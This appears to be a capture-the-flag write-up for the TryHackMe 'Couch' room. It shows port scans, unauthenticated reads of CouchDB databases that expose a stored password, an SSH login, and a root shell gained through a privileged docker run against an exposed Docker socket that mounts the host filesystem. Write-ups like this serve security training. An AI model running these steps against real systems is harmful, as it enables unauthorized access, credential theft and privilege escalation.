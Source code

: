 https://tryhackme.com/room/couch

#Enumeration

open ports

```nmap 10.10.115.64
Open 10.10.115.64:22
Open 10.10.115.64:5984
```
#Version scan
```nmap -sC -sV -p22,5984 10.10.115.64
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 60 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDMXnGZUnLWqLZb8VQiVH0z85lV+G4KY5l5kKf1fS7YgSnfZ+k3CRjAZPuGceg5RQEUbOMCm+0u4SDyIEbwwAXGv0ORK4/VEIyJlZmtlqeyASwR8ML4yjdGqinqOUZ3jN/ZIg4veJ02nr86GZP+Nto0TZt7beaIxykMEZHTdo0CctdKLIet7PpvwG4F5Tn9MBoys9pUjfpcnwbf91Tv6i56Gipo07jKgb5vP8Nl1TXPjWB93WNW2vWEQ1J4tiyZlBeLOaNaEbxvNQFnKxjVYiiLCbcofwSdrwZ7/+sIy5BdiNW+k81rBN3OqaQNZ8urFaiXXf/ukRr/hhjY5a6m0MHn
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNTR07g3p8MfnQVnv8uqj8GGDH6VoSRzwRFflMbEf3WspsYyVipg6vtNQMaq5uNGUXF8ubpsnHeJA+T3RilTLXc=
|   256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKLUyz2Tpwc5qPuFxV+HnGBeqLC6NWrmpmGmE0hk7Hlj
5984/tcp open  http    syn-ack ttl 60 CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-favicon: Unknown favicon MD5: 2AB2AAE806E8393B70970B2EAACE82E0
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
#Intial access
we saw a couchdb of 1.6.1 version which seems latest version 

checking on couchdb website on port 5984

```curl
                                                                                                                      
┌──(root💀pc)-[/thm/Couch]
└─# curl http://10.10.11.227:5984/                                                                                7 ⨯
{"couchdb":"Welcome","uuid":"ef680bb740692240059420b2c17db8f3","version":"1.6.1","vendor":{"version":"16.04","name":"Ubuntu"}}

```


```curl
┌──(root💀pc)-[/thm/Couch]
└─# curl -XGET http://10.10.11.227:5984/_all_dbs                                                               
["_replicator","_users","couch","secret","test_suite_db","test_suite_db2"]

```
we got couch, secret, test_suite_db, test_suite_db2, databses

Lets try to access it

checking couch database
```curl
┌──(root💀pc)-[/thm/Couch]
└─# curl -XGET http://10.10.11.227:5984/couch/_all_docs
{"total_rows":1,"offset":0,"rows":[
{"id":"f0bb09beb50bf8371c63ee04e100000d","key":"f0bb09beb50bf8371c63ee04e100000d","value":{"rev":"2-9f158e0d83fd380791272869372d90cd"}}
]}
               
```
accessing couch database with id "f0bb09beb50bf8371c63ee04e100000d"

```curl 
┌──(root💀pc)-[/thm/Couch]
└─# curl -XGET http://10.10.11.227:5984/couch/f0bb09beb50bf8371c63ee04e100000d
{"_id":"f0bb09beb50bf8371c63ee04e100000d","_rev":"2-9f158e0d83fd380791272869372d90cd","unnamed":null}
      
```
we don't have anything intresting lets move to another database Secret

checking secret database
```curl
┌──(root💀pc)-[/thm/Couch]
└─# curl -XGET http://10.10.11.227:5984/secret/_all_docs 
{"total_rows":1,"offset":0,"rows":[
{"id":"a1320dd69fb4570d0a3d26df4e000be7","key":"a1320dd69fb4570d0a3d26df4e000be7","value":{"rev":"2-57b28bd986d343cacd9cb3fca0b20c46"}}
]}
             
```

accessing secret database

```curl
┌──(root💀pc)-[/thm/Couch]
└─# curl -XGET http://10.10.11.227:5984/secret/a1320dd69fb4570d0a3d26df4e000be7
{"_id":"a1320dd69fb4570d0a3d26df4e000be7","_rev":"2-57b28bd986d343cacd9cb3fca0b20c46","passwordbackup":"atena:<password hidden>"}
                                                                                                                      
```
we got username and password 
i.e.., atena:<password hidden>

Lets try to ssh into the machine

```ssh
┌──(root💀pc)-[/thm/Couch]
└─# ssh atena@10.10.11.227
atena@10.10.11.227's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-193-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Wed Jun 30 23:01:24 2021 from 10.17.5.228
atena@ubuntu:~$ 
```

we got access with those credentials

Lets get th user.txt flag

```user.txt
atena@ubuntu:~$ cat user.txt 
THM{*********}
```

#Privilage escalation

```cat /home/atena/.bash_history
<READIACTED>
docker images
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
exit
```
#Getting Root shell

```docker
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
/ # 
```

getting root flag


```cat /mnt/root/root.txt
THM{*******}

```
© 2021 GitHub, Inc.
Terms
Privacy
Security
Status
Docs
Contact GitHub
Pricing
API
Training
Blog
About
